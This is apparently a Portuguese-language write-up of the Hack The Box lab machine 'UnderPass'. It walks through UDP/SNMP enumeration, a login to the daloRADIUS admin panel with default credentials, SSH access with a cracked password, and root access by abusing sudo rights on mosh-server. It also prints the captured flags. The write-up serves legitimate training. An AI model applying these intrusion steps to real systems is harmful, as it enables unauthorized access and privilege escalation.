









### Varreduras UDP também são importantes



---

## Introdução

Olá mundo! Sejam todos bem vindos à mais uma aventura na minha jornada no mundo da cibersegurança. Hoje vamos falar de uma das poucas máquinas da plataforma [Hackthebox](https://www.hackthebox.com) em que é vital fazer a enumeração usando o protocolo [[UDP]].

**`UnderPass`** é uma máquina de dificuldade fácil onde facilmente entramos em um beco sem saída quando começamos enumerando as portas via protocolo [[TCP]] (usada como padrão do [[NMAP]]). Mas ao enumerarmos usando o protocolo **`UDP`**, encontramos uma porta [[SNMP]] aberta onde podemos nos conectar e extrair informações sobre o domínio **`underpass.htb`**, o servidor [[Daloradius]] e o usuário **`steve`**. Olhando o **`daloradius`** no [Github](https://www.github.com), encontramos o caminho para o login do administrador, que está com as credenciais padrão. Na dashboard do **`daloradius`** encontramos a hash do usuário **`svcMosh`**, que podemos quabrar e usar no serviço [[SSH]]. Como usuário **`svcMosh`** podemos usar o utilitátio **`mosh-server`** como superusuário, nos permitindo invocar um shell **`root`**.

Isso com certeza será bem interessante, então vamos lá.

---

## Enumeração

### Nmap

O resultado do **`nmap`** retornou duas portas abertas.

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBK+kvbyNUglQLkP2Bp7QVhfp7EnRWMHVtM7xtxk34WU5s+lYksJ07/lmMpJN/bwey1SVpG0FAgL0C/+2r71XUEo=
|   256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ8XNCLFSIxMNibmm+q7mFtNDYzoGAJ/vDNa6MUjfU91
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec 24 09:16:34 2024 -- 1 IP address (1 host up) scanned in 18.72 seconds
```

Como não tinha as credenciais do **`SSH`**, visitei a página na web na porta 80.



E daí fiquei perdido. Completamente perdido. Até que fiquei pensando em qual seria a dica do banner oficial da máquina. Prestando bastante atenção é possível entender: **`UDP`**, de **`UnDerPass`**.

### Udp

Rodando o **`nmap`** com protocolo **`udp`**, encontrei a porta 161 **`snmp`** aberta. Abaixo pode-se ver o resultado do **`nmap`** rodando scripts **`snmp`**.

```bash
# Nmap 7.94SVN scan initiated Tue Dec 24 09:38:52 2024 as: /usr/lib/nmap/nmap -sU -p 161 --script=snmp* -oN nmap/udp-underpass 10.129.242.210
Nmap scan report for 10.129.242.210
Host is up (0.22s latency).

PORT    STATE SERVICE

161/udp open  snmp
| snmp-info:
|   enterprise: net-snmp
|   engineIDFormat: unknown
|   engineIDData: c7ad5c4856d1cf6600000000
|   snmpEngineBoots: 30
|_  snmpEngineTime: 5h04m00s
| snmp-brute:
|_  public - Valid credentials
| snmp-sysdescr: Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
|_  System uptime: 5h04m6.20s (1824620 timeticks)

# Nmap done at Tue Dec 24 09:39:17 2024 -- 1 IP address (1 host up) scanned in 24.48 seconds
```
> [!warning]
> A varredura UDP do nmap pode levar um tempo considerável para terminar se tentarmos enumerar todas as portas (-p- flag).

Rodando a ferramenta [[snmp-check]], consegui mais informações sobre o alvo.

```bash {11-13}
┌──(kali㉿kali)-[~/Boxes/Htb/underpass]
└─$ snmp-check -p 161 10.129.242.210
snmp-check v1.9 - SNMP enumerator
Copyright (c) 2005-2015 by Matteo Cantoni (www.nothink.org)

[+] Try to connect to 10.129.242.210:161 using SNMPv1 and community 'public'

[*] System information:

  Host IP address               : 10.129.242.210
  Hostname                      : UnDerPass.htb is the only daloradius server in the basin!
  Description                   : Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
  Contact                       : steve@underpass.htb
  Location                      : Nevada, U.S.A. but not Vegas
  Uptime snmp                   : 05:07:57.91
  Uptime system                 : 05:07:46.79
  System date                   : 2024-12-24 14:42:42.0
```

Nesse momento eu tinha informações interessantes:

1. O nome de domínio era **`underpass.htb`**.
2. O servidor era o **`daloradius`**.
3. O usuário **`steve`** foi citado.

Pesquisando sobre o servidor **`daloradius`**, decobri que o código está no [GitHub](https://www.github.com/lirantal/daloradius). Por ser código aberto, posso investigar  possíveis endpoints, incluindo páginas de login. E é exatamente isso que eu encontrei.



---

## Exploração

### Daloradius

Ao visitar o caminho encontrado no **`Github`**, realmente encontrei uma página de login.



Ao testar as credenciais padrão, **`administrator : radius`**, consegui acesso ao dashboard do administrador.



Listando os usuários ativos, descubro o usuário **`svcMosh`** e seu hash de senha.



Usando um decriptador de hashes online, descobri a senha do usuário **`svcMosh`** : **`underwaterfriends`**.



Com essas credenciais, obtive um conexão remota com  o servidor via **`SSH`** e consegui a flag do usuário.

```bash {3,4}
svcMosh@underpass:~$ ls
user.txt
svcMosh@underpass:~$ cat user.txt
d8dc47d19d8d6b56c6cb826d6da451ec
svcMosh@underpass:~$
```

---

## Escalação de Privilégios

### Mosh Server

Rodando o comando **`sudo -l`**, pude ver que o usuário **`svcMosh`** pode rodar o comando **`/usr/bin/mosh-server`** como superusuário sem senha.

```bash
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

> [!question] O que é Mosh?
> Mosh Server é um programa que facilita a conexão remota com um terminal, similar ao SSH, mas otimizado para ambientes de rede instáveis, como Wi-Fi e dados móveis, ou quando o cliente muda de rede. Ele se destaca pela capacidade de manter a sessão ativa mesmo com interrupções de rede ou mudanças de endereço IP.

Pesquisando um pouco sobre o **`mosh`** no site [mosh.org](https://mosh.org/), vi que é possível criar um servidor em qualquer porta acima de 60000 e depois conectar com o cliente usando a chave fornecida pelo servidor. Por usarmos o **`mosh`** como superusuário, obtemos um shell mosh root.

```bash {1,6}
svcMosh@underpass:~$ sudo /usr/bin/mosh-server new -p 61100

MOSH CONNECT 61100 BeIP9eeBg4Rk8DLkVjyPFg
<SNIPED>

svcMosh@underpass:~$MOSH_KEY=BeIP9eeBg4Rk8DLkVjyPFg mosh-client 127.0.0.1 61100

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Tue Dec 24 03:12:03 PM UTC 2024

  System load:  0.0               Processes:             227
  Usage of /:   88.5% of 3.75GB   Users logged in:       0
  Memory usage: 10%               IPv4 address for eth0: 10.129.242.210
  Swap usage:   0%

  => / is using 88.5% of 3.75GB

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

root@underpass:~# ls
root.txt
root@underpass:~# cat root.txt
889b3d290274674c1fc62cf94f678659
root@underpass:~#
```

---

## Conclusão



Nessa máquina pude aprender o quão importante é fazer uma enumeração apropriada. Eu teria me poupado de literalmente horas de procura se somente tivesse testado as portas **`udp`**. Mas mesmo assim foi bem legal a abordagem e uma grande sacada do criador da máquina. Também aprendi sobre servidores **`daloradius`** e **`mosh`**, além de novamente provar o que acontece quando deixamos permissões desnecessárias sobre determinados usuários.

Muito obrigado por ter lido até aqui e até a próxima!


